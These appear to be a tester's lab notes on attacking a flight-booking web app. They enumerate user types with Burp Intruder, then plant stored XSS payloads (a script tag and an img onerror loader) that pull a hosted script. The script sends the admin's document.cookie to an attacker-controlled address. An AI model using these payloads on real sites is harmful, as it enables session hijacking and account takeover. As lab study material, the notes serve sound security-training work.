 after registering an account notice the `type` field with `50` and being redirected to `/loginLogout`
![[Pasted image 20241125175823.png]]
send the `POST` request to `INTRUDER` and identify that `100` is a field that has different values - this is an administrator

- had to graba new post request and try again - make sure to `START ATTACK` from the payloads page
![[Pasted image 20241210221225.png]]
navigate to the `Book Flight` page with the `test:test` credentials

![[Pasted image 20241125180017.png]]
states that the admin will review
![[Pasted image 20241125180053.png]]

```bash
```js
<script src="http://192.168.45.155:8000/xss2.js"></script>
```
```




```bash
<img src="nonexistent.jpg" onerror="this.onerror=null;document.write('<script src=\'http://192.168.45.155:8000/xss2.js\'><\/script>');" />
```





```bash
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.45.155:8000/exfil?data=" + encodedCookie)
```







---------

#### Fresh restart

hosted `xss2.js` to get the administrator cookie
```js
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.45.155/exfil?data=" + encodedCookie)

```
